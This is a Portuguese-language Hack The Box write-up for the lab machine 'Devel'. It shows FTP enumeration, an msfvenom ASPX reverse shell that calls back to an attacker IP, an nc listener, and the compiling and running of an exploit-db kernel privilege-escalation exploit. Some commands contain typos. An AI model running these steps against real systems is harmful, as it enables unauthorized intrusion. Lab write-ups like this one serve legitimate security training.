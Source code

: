 Devel
========================

## Enumeration

    sudo nmap_enum

![qownnotes-media-DghKCJ](../../../media/qownnotes-media-DghKCJ.png)


    ftp -a devel.htb

![qownnotes-media-CTgBKL](../../../media/qownnotes-media-CTgBKL.png)

Vamos so verificar se temos permissao de escrita via FTP

    mkdir test

Com isso ficou facil a exploraao, dado que este e o mesmo diretorio que o IIS utiliza para hospedar os arquivos.


## Exploitation

    msfvenom -p windows/shell_reveerse_tcp -f aspx LHOST=10.10.14.134 lLPORT=80 > rshell.aspx
    
    ftp -a devel.htb
    put rshell.aspx
    
    #preparando a shell reversa
    nc -nlvp 80
    
    firefox http://devel.htb/rshell.aspx

![qownnotes-media-hUSMVS](../../../media/qownnotes-media-hUSMVS.png)

Por se tratar de um sistema operacional mais antigo, vamos iniciar com exploits de Kernel (embora eu tenha tentado o PrintSpoofer32.eexe primeiro)

pesquisa no google:

    windows 7 6.1 build 7600 privilege escalation
    
![qownnotes-media-BTMhzB](../../../media/qownnotes-media-BTMhzB.png)

<https://www.exploit-db.com/raw/40564>

Com a instrucao que esta no exploit podemos concluir que devemos compilar esse exploit com o seguinte comando:

    i686-w64-mingw32-gcc priv_esc.c -o privesc_exploit.exe -lws2_32
    
    impacket-smbserver smb .

Na maquina alvo, fazemos o upload do arquivo para la:

    cp \\10.10.14.134\smb\privesc_exploit.exe
    privesc_exploit.exe
    
    whoami
